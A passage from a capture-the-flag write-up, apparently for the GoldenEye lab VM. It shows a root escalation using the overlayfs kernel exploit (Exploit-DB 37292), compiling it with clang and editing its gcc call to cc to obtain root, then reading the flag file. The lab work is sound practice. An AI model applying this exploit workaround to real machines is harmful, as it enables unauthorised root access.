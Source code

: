 The kernel version is really old:

```
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

I used the [overlayfs](https://www.exploit-db.com/exploits/37292) exploit. There was no GCC on the box, but remember that webpage that mentioned clang. I compiled the exploit with clang: <code>clang 37292.c</code>. There were 5 warnings generated, but an executable a.out was generated. However, it didn't give me a root shell. When I looked through the exploit source code, I found a gcc reference:

``` c
lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
```

Replacing gcc with cc (the default compiler) in this line and recompiling the code worked and I got root. Then I found the secret codes inside a hidden file in /root:

```
# cat /root/.flag.txt
cat /root/.flag.txt
Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```

Visit that path on the web server and mission accomplished!

{% img center /images/pentest/goldeneye/flag.png 'flag' 'flag' %}

``` 
 ____________________________________
/ Excellent time to become a missing \
\ person.                            /
 ------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

